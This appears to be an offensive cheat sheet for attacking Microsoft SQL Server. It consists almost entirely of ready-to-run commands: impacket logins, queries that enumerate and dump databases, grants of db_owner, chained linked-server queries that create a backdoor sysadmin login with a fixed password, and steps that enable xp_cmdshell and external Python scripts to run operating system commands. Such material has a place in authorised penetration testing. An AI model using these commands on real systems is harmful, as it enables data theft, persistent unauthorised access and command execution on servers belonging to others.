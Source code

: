 # MSSQL Database Authentication and Dumping

### Commands:

#### 1) Kerberos auth

    impacket-mssqlclient -k DOMAIN.LOCAL -no-pass

#### 2) Windows Authentication (Domain Credentials)

    impacket-mssqlclient -windows-auth DOMAIN\\USERNAME@TARGET_IP

#### 3) Local Authentication

    impacket-mssqlclient USERNAME@TARGET_IP 

### DATABASE COMMANDS

#### 1) Enumerate all databases within MSSQL instance

    SELECT name FROM sys.databases; 

#### 2) Enumerate tables of the target database
    
    SELECT TABLE_NAME,TABLE_SCHEMA FROM targetdb.INFORMATION_SCHEMA.TABLES; 

#### 3) Dump all the contents of the target table of the target database
    
    SELECT * FROM targetdb.dbo.targettable 

### GIVE ACCESS TO A DATABASE WITH SYSADMIN PRIVILEGES

#### 1) Upon login, check if the user is a sysadmin

    SELECT IS_SRVROLEMEMBER('sysadmin');

If 1, the user is sysadmin.

#### 2) Give user full access to target DB

    use DATABASE;
    create user [DOMAIN\user] for login [DOMAIN\user];
    exec sp_addrolemember 'db_owner', 'DOMAIN\user';

#### 3) Dump tables from target DB

    select name from sys.tables;

### LINKED DATABASES ABUSE

#### 1) Check if our user has admin privileges to run commands with xp_cmdshell

    select name,sysadmin from syslogins; 

OR 

    SELECT IS_SRVROLEMEMBER('sysadmin');

If it returns 1, the user has admin privileges.

#### 2) Check if there are any linked servers on the current database. Isremote determines if it is linked or remote. If it is 1, it means it is linked, else is remote.

    select srvname, isremote from sysservers; 

#### 3) Check in whose context we are able to query the linked server

    EXEC ('select current_user') at [NAME\REMOTE_DATABASE]; 

#### 4) Check for sysadmin sa privileges

    EXEC ('select name,sysadmin from syslogins') at [NAME\REMOTE DATABASE]; 

#### 5) Check the remote DB server if it has more links

    EXEC ('select srvname,isremote from sysservers') at [NAME\REMOTE_DATABASE]; 

#### 6) Nested queries. This use case means that we have encountered a circular link between database servers!

    EXEC ('EXEC (''select susername()'') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE]; 

#### 7) If we are sa, then we add a user with sysadmin privileges for us

    EXEC ('EXEC (''EXEC sp_addlogin ''''super'''', ''''abc123!'''''') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE];

    EXEC ('EXEC (''EXEC sp_addsrvrolemember ''''super'''', ''''sysadmin'''''') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE];

### COMMAND EXECUTION WITH XP_CMDSHELL

#### 1) Enable command execution

    enable xp_cmdshell 
 
    xp_cmdshell whoami

#### 2) Enable execution of external scripts written in R or python

    EXECUTE sp_configure 'external scripts enabled', 1; 

#### 3) Run commands using Python

    EXEC sp_execute_external_script @language = N'Python', @script = N'import os; os.system("COMMAND");'; 

